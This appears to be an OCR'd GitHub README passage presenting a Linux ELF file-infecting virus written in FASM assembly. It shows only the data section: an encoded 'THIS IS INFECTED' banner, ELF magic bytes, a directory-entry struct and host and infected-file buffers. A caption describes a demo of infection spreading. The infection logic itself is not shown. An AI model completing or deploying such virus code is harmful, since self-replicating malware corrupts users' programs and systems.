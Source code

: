 ```nasm
msg db 0x20, 0x20, 0x20, 0x5f, 0x20, 0x20, 0x20, 0x20, 0x20, 0x20, 0x20, 0x20, 0x20, 0x20, 0x20, 0x20, 0x20, 0x20, 0x20, 0x20, 0x20, 0x20, 0x20, 0x5f, 0x0a, 0x20, 0x5f, 0x28, 0x20, 0x29, 0x20, 0x20, 0x20, 0x20, 0x20, 0x20, 0x20, 0x20, 0x20, 0x20, 0x20, 0x20, 0x20, 0x20, 0x20, 0x20, 0x20, 0x28, 0x20, 0x29, 0x5f, 0x0a, 0x28, 0x5f, 0x2c, 0x20, 0x7c, 0x20, 0x20, 0x20, 0x20, 0x20, 0x20, 0x5f, 0x5f, 0x20, 0x5f, 0x5f, 0x20, 0x20, 0x20, 0x20, 0x20, 0x20, 0x7c, 0x20, 0x2c, 0x5f, 0x29, 0x0a, 0x20, 0x20, 0x20, 0x5c, 0x27, 0x5c, 0x20, 0x20, 0x20, 0x20, 0x2f, 0x20, 0x20, 0x5e, 0x20, 0x20, 0x5c, 0x20, 0x20, 0x20, 0x20, 0x2f, 0x27, 0x2f, 0x0a, 0x20, 0x20, 0x20, 0x20, 0x27, 0x5c, 0x27, 0x5c, 0x2c, 0x2f, 0x5c, 0x20, 0x20, 0x20, 0x20, 0x20, 0x20, 0x5c, 0x2c, 0x2f, 0x27, 0x2f, 0x27, 0x0a, 0x20, 0x20, 0x20, 0x20, 0x20, 0x20, 0x27, 0x5c, 0x7c, 0x20, 0x5b, 0x5d, 0x20, 0x20, 0x20, 0x5b, 0x5d, 0x20, 0x7c, 0x2f, 0x27, 0x0a, 0x20, 0x20, 0x20, 0x20, 0x20, 0x20, 0x20, 0x20, 0x28, 0x5f, 0x20, 0x20, 0x2f, 0x5e, 0x5c, 0x20, 0x20, 0x5f, 0x29, 0x0a, 0x20, 0x20, 0x20, 0x20, 0x20, 0x20, 0x20, 0x20, 0x20, 0x20, 0x5c, 0x20, 0x20, 0x7e, 0x20, 0x20, 0x2f, 0x0a, 0x20, 0x20, 0x20, 0x20, 0x20, 0x20, 0x20, 0x20, 0x20, 0x20, 0x2f, 0x48, 0x48, 0x48, 0x48, 0x48, 0x5c, 0x0a, 0x20, 0x20, 0x20, 0x20, 0x20, 0x20, 0x20, 0x20, 0x2f, 0x27, 0x2f, 0x7b, 0x5e, 0x5e, 0x5e, 0x7d, 0x5c, 0x27, 0x5c, 0x0a, 0x20, 0x20, 0x20, 0x20, 0x5f, 0x2c, 0x2f, 0x27, 0x2f, 0x27, 0x20, 0x20, 0x5e, 0x5e, 0x5e, 0x20, 0x20, 0x27, 0x5c, 0x27, 0x5c, 0x2c, 0x5f, 0x0a, 0x20, 0x20, 0x20, 0x28, 0x5f, 0x2c, 0x20, 0x7c, 0x20, 0x20, 0x20, 0x20, 0x20, 0x20, 0x20, 0x20, 0x20, 0x20, 0x20, 0x7c, 0x20, 0x2c, 0x5f, 0x29, 0x0a, 0x20, 0x20, 0x20, 0x20, 0x20, 0x28, 0x5f, 0x29, 0x20, 0x20, 0x20, 0x20, 0x20, 0x20, 0x20, 0x20, 0x20, 0x20, 0x20, 0x28, 0x5f, 0x29, 0x0a, 0x3d, 0x3d, 0x3d, 0x3d, 0x3d, 0x3d, 0x3d, 0x3d, 0x3d, 0x3d, 0x3d, 0x3d, 0x3d, 0x3d, 0x3d, 0x3d, 0x3d, 0x3d, 0x3d, 0x3d, 0x3d, 0x3d, 0x3d, 0x3d, 0x3d, 0x3d, 0x3d, 0x3d, 0x0a, 0x20, 0x20, 0x21, 0x21, 0x21, 0x20, 0x54, 0x48, 0x49, 0x53, 0x20, 0x49, 0x53, 0x20, 0x49, 0x4e, 0x46, 0x45, 0x43, 0x54, 0x45, 0x44, 0x20, 0x21, 0x21, 0x21, 0x20, 0x20, 0x0a, 0x3d, 0x3d, 0x3d, 0x3d, 0x3d, 0x3d, 0x3d, 0x3d, 0x3d, 0x3d, 0x3d, 0x3d, 0x3d, 0x3d, 0x3d, 0x3d, 0x3d, 0x3d, 0x3d, 0x3d, 0x3d, 0x3d, 0x3d, 0x3d, 0x3d, 0x3d, 0x3d, 0x3d, 0x0a, 0x0a, 0x00
msgl = $-msg
elfmagic db 0x7f, 0x45, 0x4c, 0x46, 0x00
self_size = 1292
max_size = 4000000

struc DIRENT {
    .d_ino          rq 1
    .d_off          rq 1
    .d_reclen       rw 1
    .d_type         rb 1
    label .d_name   byte
}
virtual at 0
  DIRENT DIRENT
  sizeof.DIRENT = $ - DIRENT
end virtual

infected rb max_size
host rb max_size
self rb self_size
```

**DEMO**     
Here is the demo showing programs being infected by the virus and then these infected programs spreading 
its infection to other clean programs
